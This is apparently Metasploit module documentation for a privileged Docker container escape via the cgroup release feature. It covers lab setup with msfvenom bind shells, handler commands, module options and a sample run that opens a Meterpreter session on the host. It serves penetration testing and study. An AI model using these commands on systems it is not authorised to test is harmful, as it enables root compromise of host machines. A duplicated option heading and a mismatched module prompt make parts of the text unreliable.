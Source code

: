 ## Vulnerable Application

Docker Privileged Container Escape that obtains root on the host machine by abusing the Linux cgroup notification on rebase feature.

Both meterpreter shell and classic shell are supported. The exploit will copy a payload to a writable directory in the container and then escape the container and either search for the payload on the file system or copy it directly from the container and then execute it on the host. 

# Creating A Testing Environment

- Install Docker
- Create a privileged container (forwarding port 4444 in this example in order to use a bind shell from the host)
```bash
docker run -d -it --name test-vuln-container -p 4444:4444 --privileged ubuntu
```
- Obtain a shell on the container with metasploit. One possible option is:
```bash
# Create a bind shell using msfvenom
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf -o ./bind4444.bin
# Copy bind shell into container
docker cp ./bind4444.bin test-vuln-container:/bind4444.bin
# Execute bind shell in the container
docker exec -it test-vuln-container /bind4444.bin
```
- Connect to this bind shell in metasploit
```bash
use multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 127.0.0.1
set lport 4444
run
```

## Verification Steps

1. `use exploit/linux/local/docker_privileged_container_escape`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## ForceExploit

Force exploit even if the current session does not appear to be in a docker container, or the container does not appear vulnerable.

## ForcePayloadSearch

Force the exploit to search for the payload in the file system rather than copying out of the docker container. This avoids the need for a writable directory on the host system. Typically, the filesystem of the container will be located in the `/var/lib/docker/overlay2/` directory.

## WritableContainerDir

A directory where we can write files inside the container (default is /tmp). This is needed to drop the payload into the container.

## WritableContainerDir

A directory where we can write files on the host (default is /tmp). This is needed to copy the payload from the container onto the host. Alternatively see ForcePayloadSearch

# Scenarios

## Container Escape starting with a meterpreter shell

```
msf5 exploit(multi/handler) > use exploit/linux/local/docker_privileged_container_escape
msf5 exploit(linux/local/lxc_privilege_escalation) > set session 1
session => 1
msf5 exploit(linux/local/lxc_privilege_escalation) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Writing payload executable to '/tmp/aLQdBKpMXLo'
[*] Executing script to exploit privileged container
[*] Sending stage (3012516 bytes) to 192.168.0.231
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 192.168.0.231:4444) at 2020-07-19 14:50:51 +0100
```
